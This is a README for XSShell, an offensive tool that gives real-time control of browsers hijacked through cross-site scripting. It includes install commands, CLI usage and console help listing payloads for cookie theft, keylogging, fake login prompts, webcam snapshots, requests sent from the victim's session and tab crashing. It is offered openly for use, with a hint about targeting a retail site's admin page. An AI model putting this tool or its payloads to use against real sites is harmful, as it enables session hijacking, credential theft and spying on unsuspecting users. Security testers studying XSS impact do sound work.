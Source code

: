 XSShell
=======

XSShell is a cross-site-scripting reverse shell... Okay, well maybe it's not a true reverse shell, but it will allow you to interact in real time with an XSS victim's browser.

Just run the xsshell binary to setup your listener endpoint, do your XSS thing to get the exploit js onto the victim's browser, and as soon as they run it you should see something like this popup in your console:

```
====== start socket: 1, header: AmaaKrM= ======
socket connected: 1
    user agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.140 Safari/537.36 Edge/17.17134 
    page url:   http://example.com/ 
    referrer:   http://google.com/
    cookies:    phpsessid=abababababababab
======   end socket: 1, header: AmaaKrM= ======
```

Once you have a connection you can execute any javascript file you want on the browser, and have that script return data to your console. This may not seem very useful at first, but it allows you to be more tactical and react in real time to the environment that the script is running on. Environments like say... an admin page used to approve and manage orders placed on a retail site :)

XSShell also comes with a number of premade XSS payloads to use:

- \alert - send a js alert message
- \cs    - get cookies and any updates to the cookies
- \gi    - download all images on the page
- \kl    - key logger
- \ll    - list all links on the page
- \src   - download the current page source
- \pfl   - show the user a modal and prompt them to login
- \xhr   - make xhr requests in the context of the victim's browser
- \ct    - crash the victim's browser tab
- \wcs   - attempt to take a snapshot from the victim's webcam (WARNING: most modern browsers will prompt for access to webcams)

Install
-------

To install xsshell run:
```bash
go get github.com/raz-varren/xsshell
go install github.com/raz-varren/xsshell
```

Mods
------

If you modify any of the JS files in this package, make sure you run:
```bash
go generate github.com/raz-varren/xsshell...
go install github.com/raz-varren/xsshell
```

This will ensure that the updated files are packed into the binary.

Usage
-----

The xsshell command:
```
xsshell -h
Usage of xsshell:
  -cert string
    	ssl cert file
  -host string
    	websocket listen address
  -key string
    	ssl key file
  -log string
    	specify a log file to log all console communication
  -path string
    	websocket connection path (default "/s")
  -port string
    	websocket listen port (default "8234")
  -servdir string
    	specify a directory to serve files from. a file server will not be started if no directory is specified
  -servpath string
    	specify the base url path that you want to serve files from (default "/static/")
  -wrkdir string
    	working directory that will be used as the relative root path for any commands requiring user provided file paths (default "./")
```

Starting the shell console:
```
xsshell 
listening for sockets on :8234, at url path: /s
starting console
type \? to list available commands
xsshell > 
xsshell > \?
xsshell > \help \? \h: list available commands
xsshell > \alert:      send an alert message to the target set
xsshell >                  usage: \alert ALERT_MESSAGE
xsshell > \cs:         get the current cookies from the target set's current page and any cookie updates.
xsshell > \ct:         crash the target set's tab
xsshell > \emd:        return a list of media devices accessible to the target set's browser
xsshell > \ex:         print out the client exploit javascript
xsshell > \exm:        print out the minified version of the client exploit javascript
xsshell > \gi:         download all images on the target set's page. 
xsshell >              images will be stored in DOWNLOAD_DIR. 
xsshell >              relative file paths are relative to the path provided to -wrkdir
xsshell >                  usage: \gi [DOWNLOAD_DIR]
xsshell >                  examples:
xsshell >                      \gi
xsshell >                      \gi /tmp/images
xsshell >                      \gi imgdir
xsshell > \kl:         start a keylogger on the target set
xsshell > \ll:         list out any links found on the target set's currently open page
xsshell > \pfl:        open a modal on the target set's page prompting them for a username and password
xsshell > \ps:         print out socket info for all actively connected websockets
xsshell > \q:          exit this program
xsshell > \sf:         send a javascript file to the target set and execute it. 
xsshell >              any data can be returned from the target set by calling `this.send(\"return data string\");` in the script. 
xsshell >              relative file paths are relative to the path provided to -wrkdir
xsshell >                  usage: \sf FILE_PATH
xsshell > \sfl:        resend the last file that was sent using \sf, includes any new changes to the file
xsshell > \src:        get the target set's currently rendered page source
xsshell > \st:         set the websockets to target. one or more targets can be set with the following methods:
xsshell >              *        -targets all active websocket connections (default target set)
xsshell >              8        -target a single websocket connection belonging to that id number
xsshell >              1,2,8,10 -targets all websocket IDs in the comma separated list
xsshell >              4-16     -targets all websocket IDs from the lowest number listed to the highest number listed
xsshell >              4-       -targets all websocket IDs that are greater than or equal to the listed number
xsshell >              -16      -targets all websocket IDs that are less than or equal to the listed number
xsshell >                  usage: \st TARGET_SET
xsshell >                  examples:
xsshell >                      \st *
xsshell >                      \st 2
xsshell >                      \st 2,4,7
xsshell >                      \st 10-15
xsshell >                      \st 6-
xsshell >                      \st -100
xsshell > \wcs:        attempt to take a snapshot from the target set's webcam, if one is available. 
xsshell >              images will be stored in DOWNLOAD_DIR. 
xsshell >              relative file paths are relative to the path provided to -wrkdir.
xsshell >              NOTE: using this command may prompt the target set for webcam access. 
xsshell >              the target set may reject the prompt, or ignore it entirely.
xsshell >                  usage: \ws [DOWNLOAD_DIR]
xsshell >                  examples:
xsshell >                      \wcs /tmp/webcam_snaps
xsshell >                      \wcs snaps
xsshell > \xhr:        send an xhr request from the target set's current page
xsshell >                  usage: \xhr HTTP_METHOD FULL_URL [CONTENT_HEADER] [POST_BODY]
xsshell >                  examples:
xsshell >                      \xhr GET https://google.com/
xsshell >                      \xhr POST https://google.com/ application/json {"hello": "world"}
xsshell >
```

